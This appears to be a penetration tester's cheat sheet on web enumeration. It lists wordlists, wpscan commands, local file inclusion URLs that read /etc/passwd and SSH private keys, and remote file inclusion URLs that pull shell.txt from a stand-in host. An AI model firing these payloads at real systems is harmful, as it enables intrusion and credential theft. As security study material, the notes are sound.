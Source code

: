 #enumeration #web-enumeration
# Step 1: ALWAYS LOOK AT THE SOURCE CODE OF THE WEBPAGE!

## Step 2: 

## Common Wordlists to use for Web App Scanning: 

Common Wordlists to use for Web Directory Scanning: 
- /usr/share/wordlists/dirb/common.txt
- /usr/share/wordlists/dirbuster/*.txt
- /usr/share/wordlists/wfuzz/general/*.txt
- /usr/share/seclists/Discovery/Web-Content/
- Assetnote Wordlists: https://wordlists.assetnote.io/
- Jhaddix Content Discovery: https://gist.github.com/jhaddix/b80ea67d85c13206125806f0828f4d10

Common Wordlists to use for User Enumeration Scanning: 
- /usr/share/seclists/Usernames
- /usr/share/wordlists/dirbuster/apache-user-enum-2.0

## Web App Scanners


Wpscan(WordPress Scannner):

- wpscan --url https://megacorpone.com
- wpscan --url https://megacorpone.com --enumerate ap at (All Plugins, All Themes)
- wpscan --url https://megacorpone.com --enumerate u (Usernames)
- wpscan --url https://megacorpone.com --enumerate v



Other Tools: 
- Burp Suite
- OWASP Zap
- Cadaver
- SQLMap
- Joomscan
- Feroxbuster

## Testing for LFI: 

https://www.exploit-db.com/docs/english/40992-web-app-penetration-testing---local-file-inclusion-(lfi).pdf

Examples: 

http://example.com/index.php?page=etc/passwd
http://example.com/index.php?page=etc/passwd%00
http://example.com/index.php?page=../../etc/passwd
http://example.com/index.php?page=%252e%252e%252f
http://example.com/index.php?page=....//....//etc/passwd

Interesting Files:

Linux:

```
/etc/passwd
/etc/shadow
/etc/issue
/etc/group
/etc/hostname
/etc/ssh/ssh_config
/etc/ssh/sshd_config
/root/.ssh/id_rsa
/root/.ssh/authorized_keys
/home/user/.ssh/authorized_keys
/home/user/.ssh/id_rsa
```

Windows:
```
/boot.ini
/autoexec.bat
/windows/system32/drivers/etc/hosts
/windows/repair/SAM
```


## Testing for RFI: 

http://example.com/index.php?page=http://callback.com/shell.txt
http://example.com/index.php?page=http://callback.com/shell.txt%00
http://example.com/index.php?page=http:%252f%252fcallback.com%252fshell.txt

## Resources

- Turning LFI to RFI: 
https://l.avala.mp/?p=241
Backup: https://web.archive.org/web/20210612222732/https://l.avala.mp/?p=241